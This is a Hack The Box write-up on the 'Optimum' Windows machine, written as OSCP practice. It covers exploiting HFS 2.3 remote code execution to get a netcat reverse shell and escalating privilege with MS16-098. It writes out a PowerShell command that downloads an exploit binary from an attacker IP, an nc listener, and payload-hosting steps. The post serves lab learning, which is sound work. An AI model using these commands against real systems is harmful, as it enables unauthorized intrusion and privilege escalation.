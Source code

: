 ```yaml
---
layout: post
title:  "HTB - OPTIMUM - Without Metasploit"
date:   2021-01-11 20:07:19
categories: [HTB,Writeup,oscp-prep,windows,HFS 2.3, MS16–098]
comments: true
image:
  feature: ![infocard](https://raghul.ml/img/infocard.png)
---
```


Optimum is CVE based Windows machine. Full list of OSCP based HTB machines can be found [here](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)

Let's get started!

<!--more-->

### Recon
 
Started with [nmapAutomater](https://github.com/21y4d/nmapAutomator) and Rustscan for recon and found only port 80 was accessible



The port 80 host Rejetto HFS 2.3 (HTTP File Server 2.3).



Running searchsploit and found HFS 2.3 is vulnerable to remote code execution

### Initial foothold

Copy searchsploit found exploit to current directory.

`searchsploit -m windows/remote/39161.py`

*Understanding the exploit code:*

The code has 3 function running in an order:

1. script_Create(): Create a script which downloads nc from the attacker machine
2. execute_script(): which execute the above script with and download nc from the attacker machine
3. nc_run(): Runs the downloaded nc createing a reverse shell to the attacker machine




Locating windows nc from Kali Linux and copying it to the current directory:

Creating python3 HTTP server in the location :

`sudo python3 -m http.server 80`

Running nc listner on the attacker machine

'nc -nlvp 1234'

Executing the exploit code by modifying the local host and local port variable and we got user shell.

![user-shell]()

### Privilege escalation

Running systeminfo in the victim machine

Copy systeminfo from the victim machine to the attacker machine

Update windows-exploit suggester. By updating it will create an excel file as database.
Feed the database and system info to windows exploit suggester to know the available exploit for the current patch on the victim machine.

`~/tools/windows-exploit-suggester/exploitsuggestor.py --database '/home/kali/tools/windows-exploit-suggester/2021-01-11-mssb.xls' --systeminfo 'optimum_systeminfo.txt'`

Running the above we came to know that the machine is vulnerable for many exploit but we are using `MS16-098` for this machine. And the link for the exploit db is  https://www.exploit-db.com/exploits/41020/

The exploit has the pre-compiled binary file and downloaded it to the attacker machine.

Host the python3 HTTP Server

`python3 -m http.server 80'

In victim machine download the exploit binary where you have permission

`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.6:9005/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"`

Running the exploit gives us shell with NT/System Privilege
![root-shell]()


### Things I learnt from this machine

1. Take screenshot from the vm and save it in the corresponding machine folder
2. Spend some time in reading the exploit code and understand it before executing
3. The windows directory where we may have permission to execute is `c:\Users\Public\Downloads\`
4. Powershell to download in windows `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.6:9005/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"`
5. Some of the windows executable are available in kali linux in the directory `usr/share/windows-binaries/`




